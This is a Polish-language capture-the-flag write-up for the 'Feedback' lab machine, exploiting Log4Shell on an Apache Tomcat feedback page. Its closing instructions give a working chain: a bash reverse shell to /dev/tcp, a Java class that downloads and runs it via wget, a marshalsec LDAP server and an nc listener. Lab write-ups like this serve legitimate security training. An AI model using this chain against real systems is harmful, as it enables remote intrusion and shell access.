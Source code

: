 # Feedback
Linux,Easy, created by **xct**
![feedback_slide](https://github.com/user-attachments/assets/c7f34a5d-01b3-43cb-b7ad-db1a8ee62b82)

```
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Apache Tomcat 9.0.56
```
```
ffuf -w ~/raft.txt  -u http://10.10.103.197:8080/FUZZ -c -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36' -mc all -fw 68,66

RELEASE-NOTES.txt       [Status: 200, Size: 6898, Words: 862, Lines: 175, Duration: 41ms]
docs                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 35ms]
examples                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 68ms]
favicon.ico             [Status: 200, Size: 21630, Words: 19, Lines: 22, Duration: 35ms]
feedback                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 43ms]
host-manager            [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 33ms]
index.jsp               [Status: 200, Size: 11136, Words: 4198, Lines: 199, Duration: 60ms]
manager                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 39ms]
```

Jak maszynka nazywa się `Feedback` i mamy katalog `feedback` to tam idę xd

![{E26EDA92-67DA-4483-95DD-8CAADE33A353}](https://github.com/user-attachments/assets/39262a51-0055-4ec4-ac66-ec82c9974d83)

![{C5D0A5A1-CCEB-4596-BC09-453794CF5593}](https://github.com/user-attachments/assets/78059483-8324-4bae-8be5-f57ba132d024)

Przy okazji 2021 rok wydania to trochę mi śmierdzi i czuję, że wiem jaka tam siedzi podatność
![{DCA91D6A-F144-49A2-ACAA-8F4A0A3082CA}](https://github.com/user-attachments/assets/f22f5b76-e24c-4950-bb43-1dba1de48f6f)

![{FFA53A71-3A52-4FCB-8648-80BE324A501B}](https://github.com/user-attachments/assets/e952a117-e2cb-40fd-bd1e-e1a4141388a7)

Bingo
- teraz przygotować exploit, a wiem, że w 2024 są z tym lekkie problemy.. (ja spróbuję z tym https://github.com/cybereason/Logout4Shell.git)

![{7D472CEE-78C0-4F4B-8A72-FEC16E3F9E22}](https://github.com/user-attachments/assets/5b0ef247-be6f-471d-b5df-10f0b9265e2f)

zaczyna się...

kolejna próba [https://github.com/kozmer/log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc)

![{18F81C88-8232-44B6-9B55-99DBFD8FCCEA}](https://github.com/user-attachments/assets/6229c2c0-baf4-4d9f-8559-50f0b5d8e426)

trzeba znaleźć staszą javę

![{49292569-82B7-4BBF-8C25-E2039685826E}](https://github.com/user-attachments/assets/1f3b2aec-99ce-49f8-b6bb-820ec8bddff6)

![{302ECB26-A8B8-4FE0-85E0-F53A2792C70E}](https://github.com/user-attachments/assets/494c4c26-cf8b-42ca-a42a-6f88b4636a80)

![{2FE8DED2-A475-4169-A53A-5B351909E96F}](https://github.com/user-attachments/assets/b56599a9-64b8-40dc-a1d9-bf4982b2fc10)

`library initialization failed - unable to allocate file descriptor table - out of memory`??????????

![{419698F3-6A22-43DD-A477-79C466314260}](https://github.com/user-attachments/assets/a38b0407-488f-4308-b577-36ab7af4ed8e)

powoli do przodu...

![{D495A742-ADF3-4C65-897C-3CDE7F75B3FB}](https://github.com/user-attachments/assets/25ff772f-fa79-48e6-ae2e-c655f9e0055f)

Dobra co ja tutaj przeszełem to nie mam pytań. Ostatni hard kosztował mnie mniej wysiłku.

![{204D1839-B065-4B0D-AF8E-80C640D6C2B2}](https://github.com/user-attachments/assets/70e2a69d-4657-47f0-acb3-85be91a7d1f6)

### INSTRUKCJA

najpierw pliczek `a`
```
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.8.4.124/443 0>&1'
```

teraz pliczek Exploit.java
```
public class Exploit {
    static {
        try {
            Runtime r = Runtime.getRuntime();
            Process p = r.exec("wget http://10.8.4.124/a -O /tmp/a");
            p.waitFor();
            r = Runtime.getRuntime();
            p = r.exec("/bin/bash /tmp/a");
            p.waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    public Exploit(){
        System.out.println("Pleeeeeease");
    }
}
```

teraz musimy mieć `jdk1.8.0_20/bin/javac` z oficjalnej strony javy.

kompilujmy
```
/home/kali/SHARED/vulnlab/Feedback/log4j-shell-poc/jdk1.8.0_20/bin/javac Exploit.java -source 8 -target 8
```

dwa serwery pythona sobie stawiamy
```
python3 -m http.server 8000
python3 -m http.server 80
```

odpalamy
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.8.4.124:8000/#Exploit"
```

ustawiamy listener
```
nc -lvnp 443
```
i na końcu wchodzimy na stronę

![{7E159FF4-D89C-4BF6-B124-C4C2B51EEE5D}](https://github.com/user-attachments/assets/ffac08b7-1f16-459a-a28b-d16add28c0fa)
